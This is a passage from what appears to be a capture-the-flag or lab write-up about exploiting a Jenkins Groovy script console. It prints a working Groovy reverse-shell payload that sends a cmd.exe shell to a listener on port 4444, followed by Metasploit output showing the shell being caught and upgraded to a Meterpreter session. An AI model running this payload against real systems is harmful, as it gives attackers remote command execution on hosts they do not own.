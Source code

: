 ```bash
String host="10.10.253.137";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![groovy shell payload](/static/img/internal_http_jenkins_groovy_injection.png)

After executing the payload I caught the response on my new listener and migrated it using the `shell_to_meterpreter` module which gave me a second open meterpreter session on the host.

```bash
msf5 exploit(multi/handler) > [*] Command shell session 3 opened (10.10.253.137:4444 -> 10.10.215.86:57730) at 2020-12-05 06:16:05 +0000

msf5 exploit(multi/handler) > search shell_to_me

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(multi/handler) > use 0
msf5 post(multi/manage/shell_to_meterpreter) > set session 3
session => 3
```